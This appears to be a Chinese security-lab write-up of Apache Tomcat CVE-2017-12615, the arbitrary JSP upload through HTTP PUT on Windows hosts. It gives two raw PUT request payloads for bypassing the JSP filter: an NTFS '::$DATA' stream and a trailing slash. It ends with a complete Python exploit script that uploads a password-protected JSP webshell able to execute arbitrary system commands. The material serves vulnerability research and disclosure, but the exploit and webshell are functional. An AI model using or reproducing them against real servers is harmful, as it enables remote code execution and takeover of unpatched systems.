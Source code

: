 *Author:bingo@猎户实验室、 浮萍@猎户实验室*



**1. 漏洞花絮**

       2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，漏洞CVE编号:CVE-2017-12615和CVE-2017-12616,其中 **远程代码执行漏洞（CVE-2017-12615）**    影响： Apache Tomcat 7.0.0 - 7.0.79（7.0.81修复不完全）

当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。



**2. 基本信息**

漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：Windows

影响版本：Apache Tomcat 7.0.0 - 7.0.81



**3. 测试过程**

0x00 安装Tomcat 7.0.79

![image-20180910223238584](assets/image-20180910223238584.png)

**0x01 开启HTTP PUT**

修改Tomcat 7.0/conf/web.xml文件

添加readonly属性，使者readonly=false.![image-20180910223314668](assets/image-20180910223314668.png)

重启tomcat



**0x02 任意文件上传 · 姿势一**

思路：参考微软MSDN上关于NTFS Streams的一段资料https://msdn.microsoft.com/en-us/library/dn393272.aspx

```
`All files on an NTFS volume consist of at least one stream - the main stream – this is the normal, viewable file in which data is stored. The full name of a stream is of the form below.<filename>:<stream name>:<stream type>The default data stream has no name. That is, the fully qualified name for the default stream for a file called "sample.txt" is "sample.txt::$DATA" since "sample.txt" is the name of the file and "$DATA" is the stream type.`
```

payload::

```
`PUT /111.jsp::$DATA HTTP/1.1Host: 10.1.1.6:8080User-Agent: JNTASSDNT: 1Connection: close...jsp shell...`
```

写入成功



**0x03 任意文件上传 · 姿势二 （可攻击Tomcat 7.0.81）**

思路：可以上传jSp文件(但不能解析)，却不可上传jsp。 说明tomcat对jsp是做了一定处理的。那么就考虑是否可以使其处理过程中对文件名的识别存在差异性，前面的流程中 test.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。

payload /

```
`PUT /222.jsp/ HTTP/1.1Host: 10.1.1.6:8080User-Agent: JNTASSDNT: 1Connection: close...jsp shell...`
```

![image-20180910223346708](assets/image-20180910223346708.png)

写入成功



**0x04 菜刀连接**

![image-20180910223402490](assets/image-20180910223402490.png)



**4. POC参考**

> \#! -*- coding:utf-8 -*- 
>
> import httplib
>
> import sys
>
> import time
>
> body = '''<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
>
> +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>'''
>
> try:
>
>     conn = httplib.HTTPConnection(sys.argv[1])
>
>     conn.request(method='OPTIONS', url='/ffffzz')
>
>     headers = dict(conn.getresponse().getheaders())
>
>     if 'allow' in headers and \
>
>        headers['allow'].find('PUT') > 0 :
>
>         conn.close()
>
>         conn = httplib.HTTPConnection(sys.argv[1])
>
>         url = "/" + str(int(time.time()))+'.jsp/'
>
>         \#url = "/" + str(int(time.time()))+'.jsp::$DATA'
>
>         conn.request( method='PUT', url= url, body=body)
>
>         res = conn.getresponse()
>
>         if res.status  == 201 :
>
>             \#print 'shell:', 'http://' + sys.argv[1] + url[:-7]
>
>             print 'shell:', 'http://' + sys.argv[1] + url[:-1]
>
>         elif res.status == 204 :
>
>             print 'file exists'
>
>         else:
>
>             print 'error'
>
>         conn.close()
>
>     else:
>
>         print 'Server not vulnerable'
>
>         
>
> except Exception,e:
>
>     print 'Error:', e



![image-20180910223434705](assets/image-20180910223434705.png)



**5. 参考链接**

NTFS Streams | https://msdn.microsoft.com/en-us/library/dn393272.aspx

http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81

[https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)


